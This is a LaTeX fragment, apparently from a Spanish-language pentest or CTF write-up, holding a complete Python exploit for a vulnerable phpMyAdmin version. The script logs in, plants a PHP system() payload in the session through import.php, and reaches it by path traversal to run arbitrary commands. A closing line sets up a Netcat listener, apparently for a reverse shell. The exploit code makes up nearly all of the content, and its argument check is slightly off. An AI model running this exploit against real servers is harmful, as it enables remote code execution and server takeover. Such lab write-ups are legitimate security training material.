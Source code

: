 \documentclass[a4paper]{article}
\begin{document}
\begin{lstlisting}[language=Python, caption={Exploit para la versión vulnerable de PhpMyAdmin}]

  import re, requests, sys, html
  
  if len(sys.argv) < 4:
    usage = """Usage: {} [route/ip] [username] [password] [command]
  Example: {} 192.168.56.65 8080 /phpmyadmin username password whoami"""
    print(usage.format(sys.argv[0],sys.argv[0]))
    exit()
  
  def get_token(content):
    s = re.search('token"\s*value="(.*?)"', content)
    token = html.unescape(s.group(1))
    return token
  
  ipaddr = sys.argv[1]
  username = sys.argv[2]
  password = sys.argv[3]
  command = sys.argv[4]
  
  url = "http://{}".format(ipaddr)
  
  url1 = url + "/index.php"
  r = requests.get(url1)
  content = r.content.decode('utf-8')
  
  s = re.search('PMA_VERSION:"(\d+\.\d+\.\d+)"', content)
  version = s.group(1)
  
  cookies = r.cookies
  token = get_token(content)
  
  p = {'token': token, 'pma_username': username, 'pma_password': password}
  r = requests.post(url1, cookies = cookies, data = p)
  content = r.content.decode('utf-8')
  s = re.search('logged_in:(\w+),', content)
  logged_in = s.group(1)
  
  
  cookies = r.cookies
  token = get_token(content)
  
  url2 = url + "/import.php"
  payload = '''select '<?php system("{}") ?>';'''.format(command)
  p = {'table':'', 'token': token, 'sql_query': payload }
  r = requests.post(url2, cookies = cookies, data = p)
  
  session_id = cookies.get_dict()['phpMyAdmin']
  url3 = url + "/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{}".format(session_id)
  r = requests.get(url3, cookies = cookies)
  
  content = r.content.decode('utf-8', errors="replace")
  s = re.search("select '(.*?)\n'", content, re.DOTALL)
  
  print(s.group(1))
  
\end{lstlisting}

\clearpage

Utilizando la herramienta \textbf{Netcat} dejamos un listener atendiendo el puerto \textbf{556}
\end{document}
